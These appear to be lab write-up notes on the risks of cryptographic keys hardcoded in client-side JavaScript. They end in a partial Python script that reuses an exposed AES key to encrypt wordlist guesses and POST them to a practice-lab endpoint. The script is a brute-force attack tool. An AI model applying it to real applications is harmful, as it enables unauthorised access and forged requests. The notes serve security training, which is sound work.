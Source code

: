 ```bash
```
# Exposed Keys
## Risks of Exposing Cryptographic Keys in Client-Side Code
Exposing cryptographic keys in client-side code is a common yet critical mistake. When keys are included in code that runs in the user's browser (e.g., JavaScript), anyone with access to the application can retrieve and misuse those keys. This defeats the purpose of encryption and authentication, as the attacker gains direct access to the mechanism meant to protect the data.
**Key risks include:**
1. **Unauthorised Access:** Exposed keys can be used to decrypt sensitive data or interact with backend APIs as an authenticated user.
2. **Data Tampering:** An attacker can use the keys to generate signed payloads or modify encrypted messages, bypassing integrity checks.
3. **API Abuse:** Hardcoded API keys may allow attackers to access privileged API endpoints without authorisation.
## Common Scenarios of Key Exposure
1. **Hardcoded API Keys in JavaScript**  
    Developers often embed API keys in front-end code for convenience, forgetting that anyone can view this code using browser developer tools.
2. **Encryption Keys in Client-Side Frameworks**  
    Encryption keys are sometimes included in front-end libraries or scripts to encrypt/decrypt data locally. These keys can be easily extracted and used maliciously.
3. **Unsecured Configuration Files**  
    Configuration files embedded in web applications may contain sensitive credentials or keys in plain text.
## Exercise
By viewing the page source, we found that the application uses js to encrypt the submitted message before submitting it.
![[Pasted image 20250409125950.png]]
Since the  encryption key is hardcoded in the js code, it is possible to bruteforce the correct message from the hardcoded encryptionKey value.

Using the already provided wordlist, we use the code:
``` python
import requests
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

# Configuration
url = "http://bcts.thm/labs/lab3/process.php"
encryption_key = b"1234567890123456"  # Must be 16 bytes (same as in the JavaScript)
wordlist_path = "wordlist.txt"        # Path to the wordlist

# Function to encrypt a message
def encrypt_message(message, iv):
    # Pad the message to a multiple of the block size (16 bytes for AES)
    padded_message = pad(message.encode(), AES.block_size)
    # Encrypt using AES-CBC
    cipher = AES.new(encryption_key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(padded_message)
    # Encode ciphertext and IV in Base64 for transmission
    return base64.b64encode(ciphertext).decode(), base64.b64encode(iv).decode()

# Function to send the payload
def send_payload(ciphertext, iv):
    payload = {"data": ciphertext, "iv": iv}
    response = requests.post(url, json=payload)
    return response.text
```